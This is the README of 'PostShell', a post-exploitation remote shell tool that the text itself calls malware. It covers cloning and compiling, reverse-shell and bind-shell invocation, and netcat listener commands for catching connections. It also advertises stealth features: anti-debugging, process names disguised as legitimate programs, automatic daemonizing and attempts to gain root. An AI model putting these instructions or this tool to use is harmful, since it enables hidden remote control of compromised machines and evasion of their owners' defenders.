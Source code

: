 # PostShell
PostShell is a post-exploitation shell that includes both a bind and a back connect shell. It creates a fully interactive TTY which allows for job control. The stub size is around 14kb and can be compiled on any Unix like system.

# ScreenShots
![Screenshot](https://github.com/rek7/postshell/blob/master/img01.png)
Banner and interaction with shell after a connection is started.

## Why not use a traditional Backconnect/Bind Shell?
PostShell allows for easier post-exploitation by making the attacker less dependant on dependencies such as Python and Perl. It also incorporates both a back connect and bind shell, meaning that if a target doesn't allow outgoing connections an operator can simply start a bind shell and connect to the machine remotely. PostShell is also significantly less suspicious than a traditional shell due to the fact both the name of the processes and arguments are cloaked.

## Features
+ Anti-Debugging, if ptrace is detected as being attached to the shell it will exit.
+ Process Name/Thread names are cloaked, a fake name overwrites all of the system arguments and file name to make it seem like a legitimate program.
+ TTY, a TTY is created which essentially allows for the same usage of the machine as if you were connected via SSH.
+ Bind/Backconnect shell, both a bind shell and back connect can be created.
+ Small Stub Size, a very small stub(<14kb) is usually generated.
+ Automatically Daemonizes
+ Tries to set GUID/UID to 0 (root)

## Getting Started
1. Downloading: `git clone https://github.com/rek7/postshell`
2. Compiling: `cd postshell && sh compile.sh`
This should create a binary called "stub" this is the malware.

## Commands
```bash
$ ./stub
Bind Shell Usage: ./stub port
Back Connect Usage: ./stub ip port
$
```
## Example Usage
Backconnect:
```bash
$ ./stub 127.0.0.1 13377
```
Bind Shell:
```bash
$ ./stub 13377
```
## Recieving a Connection with Netcat
Recieving a backconnect:
```bash
$ nc -vlp port
```
Connecting to a bind Shell:
```bash
$ nc host port
```

## TODO:
+ Add domain resolution
